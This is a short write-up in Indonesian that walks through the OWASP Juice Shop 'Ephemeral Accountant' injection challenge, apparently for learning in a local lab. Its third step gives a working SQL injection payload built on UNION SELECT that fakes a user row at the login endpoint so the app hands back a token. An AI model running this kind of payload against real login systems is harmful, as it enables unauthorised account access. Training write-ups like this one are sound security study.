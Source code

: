 # Ephemeral Accountant - OWASP Juice Shop

### Detail Informasi
---
Kategori = Injection☠️

[Ephemeral Accountant](http://localhost:3000/#/score-board?categories=Injection)

## Langkah-langkah pengerjaan
1. Mendapatkan schema query untuk **create User**
![Alt text](./gambar/ea-1.png)

2. Menemukan endpoint dari user login di burp suite dan send to repeater
![Alt text](./gambar/ea-2.png)

3. Pada bagian repeater bagian isi email diganti dengan payload yang sesuai dengan schema user-nya untuk memunculkan token
~~~
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, 'localhost' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2024-08-30 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
~~~

![Alt text](./gambar/ea-3.png)
 